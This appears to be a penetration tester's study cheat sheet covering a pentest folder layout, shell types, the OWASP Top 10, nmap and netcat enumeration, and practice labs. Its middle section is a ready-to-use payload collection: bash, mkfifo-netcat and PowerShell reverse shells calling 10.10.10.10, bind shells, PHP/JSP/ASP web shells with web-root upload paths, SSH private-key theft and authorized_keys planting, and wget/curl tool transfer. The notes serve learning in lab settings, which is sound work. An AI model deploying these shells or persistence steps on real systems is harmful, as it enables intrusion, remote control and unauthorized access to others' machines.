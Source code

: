 Example of Pentest Dir
Projects/
└── Acme Company
    ├── EPT
    │   ├── evidence
    │   │   ├── credentials
    │   │   ├── data
    │   │   └── screenshots
    │   ├── logs
    │   ├── scans
    │   ├── scope
    │   └── tools
    └── IPT
        ├── evidence
        │   ├── credentials
        │   ├── data
        │   └── screenshots
        ├── logs
        ├── scans
        ├── scope
        └── tools

**Shell Type**

**Description**

`Reverse shell`

Initiates a connection back to a "listener" on our attack box.

`Bind shell`

"Binds" to a specific port on the target host and waits for a connection from our attack box.

`Web shell`

Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command.

. The current OWASP Top 10 list is:

Number

Category

Description

1.[Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

Restrictions are not appropriately implemented to prevent users from accessing other users accounts, viewing sensitive data, accessing unauthorized functionality, modifying data, etc.

2.[Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)

Failures related to cryptography which often leads to sensitive data exposure or system compromise.

3.[Injection](https://owasp.org/Top10/A03_2021-Injection/)

User-supplied data is not validated, filtered, or sanitized by the application. Some examples of injections are SQL injection, command injection, LDAP injection, etc.

4.[Insecure Design](https://owasp.org/Top10/A04_2021-Insecure_Design/)

These issues happen when the application is not designed with security in mind.

5.[Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

Missing appropriate security hardening across any part of the application stack, insecure default configurations, open cloud storage, verbose error messages which disclose too much information.

6.[Vulnerable and Outdated Components](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/)

Using components (both client-side and server-side) that are vulnerable, unsupported, or out of date.

7.[Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

Authentication-related attacks that target user's identity, authentication, and session management.

8.[Software and Data Integrity Failures](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)

Software and data integrity failures relate to code and infrastructure that does not protect against integrity violations. An example of this is where an application relies upon plugins, libraries, or modules from untrusted sources, repositories, and content delivery networks (CDNs).

9.[Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)

This category is to help detect, escalate, and respond to active breaches. Without logging and monitoring, breaches cannot be detected..

10.[Server-Side Request Forgery](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).



**Basic Tools**
ssh bob@10.10.10.10
nc 10.10.10.10 22
nc banner grab 
	nc -nv 10.129.42.253 21 
VIM - https://vimsheet.com/
	Command
	`x`
	
	Cut character
	
	`dw`
	
	Cut word
	
	`dd`
	
	Cut full line
	
	`yw`
	
	Copy word
	
	`yy`
	
	Copy full line
	
	`p`
	
	Paste


NMAP

-sC Scripts
-sV Version Scanning
-p- All ports

nmap -sV -sC -p- 10.129.42.253
`nmap -sV --script=banner -p21 10.10.10.0/24`.
nmap --script smb-os-discovery.nse -p445 10.10.10.40


smbclient -N -L \\\\10.129.42.253

Looking for vulns 
searchsploit openssh 7.2
msf console> search exploit eternalblue

Catch a rev shell - nc -lvnp 1234
	Rev shells - bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
	Rev shells  bash - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
	Rev Shell - Powershell - powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
Bind Shell
	bash - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
	python - python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
	powershell - powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

upgrady tty - wpython -c 'import pty; pty.spawn("/bin/bash")'

Fix term size - echo $TERM && stty size
	export TERM=xterm-256color
	stty rows 67 columns 318

Web Shell
	php - <?php system($_REQUEST["cmd"]); ?>
	jsp - <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
	asp - <% eval request("cmd") %>
Upload Locations
	`Apache`
	/var/www/html/
	`Nginx`
	/usr/local/nginx/html/
	`IIS`
	c:\inetpub\wwwroot\
	`XAMPP`
	C:\xampp\htdocs\
Example
	echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
	http://SERVER_IP:PORT/shell.php?cmd=id
	curl http://SERVER_IP:PORT/shell.php?cmd=id

Priv Esc
	https://github.com/swisskyrepo/PayloadsAllTheThings
	https://book.hacktricks.xyz/
	https://github.com/rebootuser/LinEnum.git
	https://github.com/sleventyeleven/linuxprivchecker
	https://github.com/GhostPack/Seatbelt
	https://github.com/411Hall/JAWS
	https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
	Cron jobs
		1.  `/etc/crontab`
		2.  `/etc/cron.d`
		3.  `/var/spool/cron/crontabs/root`
	SSH Keys
		/home/user/.ssh/id_rsa or /root/.ssh/id_rsa,
		vim id_rsa
		chmod 600 id_rsa
		ssh user@10.10.10.10 -i id_rsa
	Keygen
		ssh-keygen -f key
		 echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
		 ssh root@10.10.10.10 -i key
	Example
		sudo -u user2 /bin/bash
	
	Transferring Files
		python3 -m http.server 8000 
		 wget http://10.10.14.1:8000/linenum.sh
		 curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
		 scp linenum.sh user@remotehost:/tmp/linenum.sh


Resources
	Vulnerable Machines/Applications
There are many resources available to practice common web and network vulnerabilities in a safe, controlled setting. The following are some examples of purposefully vulnerable web applications and vulnerable machines that we can set up in a lab environment for extra practice.

OWASP Juice Shop	Is a modern vulnerable web application written in Node.js, Express, and Angular which showcases the entire OWASP Top Ten along with many other real-world application security flaws.
Metasploitable 2	Is a purposefully vulnerable Ubuntu Linux VM that can be used to practice enumeration, automated, and manual exploitation.
Metasploitable 3	Is a template for building a vulnerable Windows VM configured with a wide range of vulnerabilities.
DVWA	This is a vulnerable PHP/MySQL web application showcasing many common web application vulnerabilities with varying degrees of difficulty.
It is worth learning how to set these up in your lab environment to gain extra practice setting up VMs and working with common configurations such as setting up a web server. Aside from these vulnerable machines/applications, we can also set up many machines and applications in a lab environment to practice configuration, enumeration/exploitation, and remediation.

YouTube Channels
There are many YouTube channels out there that showcase penetration testing/hacking techniques. A few worth bookmarking are:

IppSec	Provides an extremely in-depth walkthrough of every retired HTB box packed full of insight from his own experience, as well as videos on various techniques.
VbScrub	Provides HTB videos as well as videos on techniques, primarily focusing on Active Directory exploitation.
STÖK	Provides videos on various infosec related topics, mainly focusing on bug bounties and web application penetration testing.
LiveOverflow	Provides videos on a wide variety of technical infosec topics.

Lab	Scenario
Dante	Beginner-friendly to learn common pentesting techniques and methodologies, common pentesting tools, and common vulnerabilities.
Offshore	Active Directory lab that simulates a real-world corporate network.
Cybernetics	Simulates a fully-upgraded and up-to-date Active Directory network environment, which is hardened against attacks. It is aimed at experienced penetration testers and Red Teamers.
RastaLabs	Red Team simulation environment, featuring a combination of attacking misconfigurations and simulated users.
APTLabs	This lab simulates a targeted attack by an external threat agent against an MSP (Managed Service Provider) and is the most advanced Pro Lab offered at this time.